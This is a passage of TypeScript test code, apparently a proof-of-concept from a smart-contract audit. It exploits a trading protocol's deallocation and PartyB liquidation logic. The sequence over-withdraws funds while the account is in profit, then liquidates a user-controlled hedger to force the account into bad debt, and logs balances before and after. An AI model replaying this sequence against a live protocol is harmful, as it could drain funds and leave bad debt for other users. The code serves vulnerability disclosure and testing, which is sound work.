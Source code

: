 ```ts
  console.log("partyA allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);

  var posCount = await this.context.viewFacet.partyAPositionsCount(this.user.getAddress());
  console.log("PartyA positions count: " + posCount);
  var openPositions = await this.context.viewFacet.getPartyAOpenPositions(
    this.user.getAddress(),
    0,
    posCount,
  );

  for (const pos of openPositions) {
    console.log("Position " + pos.id + ": type " + pos.positionType + ": " + pos.quantity/1e18 + " @ " + pos.openedPrice/1e18);
  }

  // deallocate max amount (upnl = -500 + 1000 = +500 for the user)
  // since we're in a profit, even after deallocating everything available we still have funds available, but can't deallocate more,
  // because allocated amount is already 0, and as it's unsigned, it can't go lower. This can be further exploited using another bug,
  // but that's out of this bug context
  await context.accountFacet.connect(this.user.signer).deallocate(decimal(1009), await getDummySingleUpnlSig(decimal(500)));

  // finish liquidation of user controlled hedger, forcing user in a big bad debt
  await context.liquidationFacet.connect(this.liquidator.signer).liquidatePositionsPartyB(
    this.hedger2.signer.address,
    this.user.signer.address,
    await getDummyQuotesPriceSig([3], [5]),
  )

  var info = await this.user.getBalanceInfo();
  console.log("partyA allocated: " + info.allocatedBalances / 1e18 + " locked: " + info.totalLocked/1e18 + " pendingLocked: " + info.totalPendingLocked / 1e18);

  var posCount = await this.context.viewFacet.partyAPositionsCount(this.user.getAddress());
  console.log("PartyA positions count: " + posCount);
  var openPositions = await this.context.viewFacet.getPartyAOpenPositions(
    this.user.getAddress(),
    0,
    posCount,
  );

  for (const pos of openPositions) {
    console.log("Position " + pos.id + ": type " + pos.positionType + ": " + pos.quantity/1e18 + " @ " + pos.openedPrice/1e18);
  }

});
```
